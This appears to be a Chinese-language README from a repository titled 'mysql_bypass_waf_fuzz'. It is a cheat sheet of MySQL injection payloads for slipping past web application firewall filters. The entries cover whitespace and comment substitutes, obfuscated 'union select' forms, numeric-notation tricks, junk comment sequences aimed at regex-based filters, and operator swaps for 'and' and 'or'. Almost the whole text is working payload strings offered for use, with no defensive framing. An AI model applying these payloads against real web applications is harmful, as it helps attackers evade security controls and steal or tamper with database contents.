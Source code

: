 # mysql_bypass_waf_fuzz

---

教程：

```
https://www.jianshu.com/p/dd7ba834170e?from=singlemessage
```

技巧

字母大小写转换


空格：

```
%0a
/**/
+
//
```

---

注释符

```
--空格
#空格
-- +
/**/
```

绕过union select

```
union/*!12345select*/user()
union/**/select user()
union(select user())
```

绕过空格union和空格from

```
科学计数法：
id=1.1union select 1,2,3.1from user;
id=1e0union select 1,2,3e0from user;
id=1e1union select 1,2,3e1from user;
%0b，%0c：
id=1%0bunion select 1,2,3  =》id=1^Kunion select 1,2,3
id=1%0cunion select 1,2,3  =》id=1^Lunion select 1,2,3
```

select xx绕过

```
select@user()
select~user()
select!user()
select%0buser() => select^Kuser()
select%0cuser() => select^Luser()
```

id='2.0abc' 该字段为数字时，变成id=‘2‘

```
id=2.0abc'    -> id='2'
id=3.0abc'-1  -> id='2'
id=%201        -> id= 1
```

url传入ascii大于80时进行\x80编码 ：%80%81	

```
id=%80%81%82  -> id=\x80\x81\x82
```

函数与括号之间可添加空格、注释、换行

```
select user (),database/**/(),version
() from user;
```

执行语句之间空格绕过(注释/**/、换行%0a)

```
select/**/*/**/from
user;
```

单双引号'"、括号()、反单引号``、星号*、与语句之间可以没有空格

```
SELECT*FROM(users)WHERE(id='3.0abc')union(select'3.0abc',2,user()from`users`);
```

垃圾语句（当空格用）突破防sql注入的正则表达式(注释配合换行符)

```
--%20/*%99%0a
--%20%0d%0a%23/*%99%0a
%23/*%99%0a
```

and和or绕过

```
and -> &&  -> %26%26  
or  -> ||  -> %7C%7C
```

括号绕过

```
user() -> user(%0a /*!80000aaa*/)
```

